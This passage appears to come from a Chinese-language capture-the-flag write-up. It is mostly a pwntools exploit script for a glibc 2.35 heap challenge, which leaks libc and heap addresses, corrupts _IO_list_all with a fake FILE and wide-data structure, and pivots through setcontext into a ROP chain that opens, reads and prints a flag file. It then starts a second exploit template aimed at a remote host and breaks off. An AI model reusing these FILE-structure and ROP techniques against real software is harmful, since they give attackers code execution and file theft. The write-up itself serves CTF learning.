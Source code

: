 add(4,0x500)
show(2)
libc.address = u64(r(6).ljust(8,b'\x00'))-0x21b0d0
inf('libc.address')

edit(2,0x10,b'a'*0x10)
show(2)
ru(b'a'*0x10)
heap = u64(r(6).ljust(8,b'\x00'))-0x2190
inf('heap')
edit(2,0x20,p64(libc.address+0x21b0d0)*2+p64(heap+0x2190)+p64(libc.sym['_IO_list_all']-0x20))
free(0)
add(5,0x500)
add(0,0x410)
edit(0,0x10,b'a'*0x10)

syscall = 0x0000000000091316+libc.address
rdx_rbx = 0x00000000000904a9+libc.address
rsi = 0x000000000002be51+libc.address
rax = 0x0000000000045eb0+libc.address
rdi = 0x000000000002a3e5+libc.address
ret = 0x000000000002db7d+libc.address
gadget1 = 0x000000000012e8c6+libc.address
# mov rdx, rax; call qword ptr [rbx + 0x28];  similar mov rdx,fake_wide_data_vtable
rop_chain = p64(rdi)+p64(0xFFFFFFFFFFFFFF9c)+p64(rsi)+p64(heap+0x2408)+p64(rax)+p64(257)+p64(syscall)+p64(rdi)+p64(3)+p64(rsi)+p64(heap)+p64(rdx_rbx)+p64(0x30)+b'flag\x00\x00\x00\x00'+p64(rax)+p64(0)+p64(syscall)+p64(rdi)+p64(1)+p64(rax)+p64(1)+p64(syscall) # write rop_chain in here
rop_ptr =  heap+0x23a0# addr start of rop_chain 
fake_wide_data_ptr =  heap+0x2270# result of &fake_IO_wfile_jumps+8
fake_wide_data_vtable = fake_wide_data_ptr+0xe8-0x68

fake_io = flat({0x88:heap,0xa0:fake_wide_data_ptr,0x28:libc.sym['setcontext']+61,0x20:0,0xc0:0,0xd8:libc.sym['_IO_wfile_jumps']},filler=b'\x00')

fake_wide_data = flat({0xe0:fake_wide_data_vtable},filler=b'\x00')

pay = fake_io[0x10:]+fake_wide_data+p64(gadget1)+p64(0)*6+p64(rop_ptr)+p64(ret)+rop_chain

edit(2,len(pay),pay)

# gdb.attach(io,'direct /home/xixi/桌面/glibc-source/glibc-2.35\nb _IO_wdoallocbuf\nc')
menu(5)

io.interactive()
ez_tank
以为是反弹shell，丢了一血，奇耻大辱！！！有读文件，用重定向代替ls就行
from pwn import *
import base64
context(arch='amd64',log_level='debug')
file = './httpd'
# io = process(file)
io = remote('27.25.151.26',40565)
# io = remote('127.0.0.1',9999)
elf = ELF(file)
libc = elf.libc
# gdb.attach(io)
s       = lambda data               :io.send(data)
